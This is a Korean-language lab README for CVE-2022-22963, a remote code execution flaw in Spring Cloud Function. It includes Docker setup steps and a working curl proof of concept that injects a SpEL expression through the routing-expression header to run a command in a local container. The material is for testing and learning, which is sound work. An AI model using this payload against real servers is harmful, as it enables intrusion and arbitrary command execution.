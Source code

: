 # CVE-2022-22963 (Spring Cloud Function RCE)


## 1. 요약
CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 버전에서 발생하는 원격 코드 실행(RCE) 취약점입니다.
공격자는 HTTP 요청의 `spring.cloud.function.routing-expression` 헤더를 조작하여 서버에서 임의의 시스템 명령어를 실행합니다.


## 2. 환경 구성 및 실행
1. `docker-compose up -d` 명령어로 테스트트 환경 실행
2. `localhost:8080/functionRouter`에 접속해서 서버가 실행되고 있는지 확인
3. curl 명령어로 RCE PoC 공격
4. 도커 컨테이너의 /tmp 디렉토리에서 pwned 파일 확인


## 3. 취약점 검증 (PoC)
- PoC 방식: HTTP POST 요청에 조작된 헤더를 삽입하여 시스템 명령어 실행 시도

**PoC 명령어:**
```bash
curl -X POST "http://localhost:8080/functionRouter" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -d "test"
```


## 4. 결과
![curl PoC 캡처](./1.png)
![결과 캡처](./2.png)

